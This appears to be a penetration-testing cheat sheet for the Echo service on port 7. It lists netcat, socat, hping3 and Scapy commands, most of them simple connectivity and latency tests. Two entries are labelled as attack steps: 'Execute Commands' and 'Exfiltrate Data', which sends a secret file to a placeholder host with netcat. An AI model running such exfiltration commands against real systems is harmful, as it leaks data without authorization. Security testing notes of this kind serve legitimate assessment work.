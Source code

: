 ### [[NetCat]]
 - **Netcat TCP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 7
    ```
- **Netcat UDP Connect:** Simple test to verify port service is running and responding.
	````bash
	nc <target_ip> 7 -u
	````
- **Continuous Echo Test (Custom Script):** Continuously sends the string "test" every second, useful for monitoring network health over time.
    ```bash
    while true; do echo "test" | nc <target_ip> 7; sleep 1; done
    ```
- **Latency Measurement (Custom Script):**Measures the time taken for a packet to be echoed back, providing a simple latency measurement.
    ```bash
    start=$(date +%s%N); echo "test" | nc <target_ip> 7; end=$(date +%s%N); echo "Latency: $((($end-$start)/1000000)) ms"
    ```
- **Execute Commands:** Execute commands on target.
	```bash
	echo "<command>" | nc <target_ip> 7
	```
- **Exfiltrate Data:** Exfiltrate data over specified port.
	```bash
    nc <target_ip> 7 < secret_data.txt
    ```

### [[SoCat Cheat Sheet]]
- **Socat TCP Connect:** Simple test to verify port service is running and responding.
	```bash
	socat - TCP:<target_ip>:<target_port>
	```

### [[HPing3 Cheat Sheet]]
- **Send UDP Packet:** Send a single UDP packet to the service.
    ```bash
    hping3 -2 <target_ip> -p <target_port> -c 1
    ```

### [[Scapy]]
- **Echo Packet Crafting (Custom Script):** Custom packet crafting to interact with the Echo Protocol.
    ```python
    from scapy.all import *
    packet = IP(dst="<target_ip>")/UDP(dport=7)/Raw(load="test")
    response = sr1(packet)
    print(response.show())
    ```
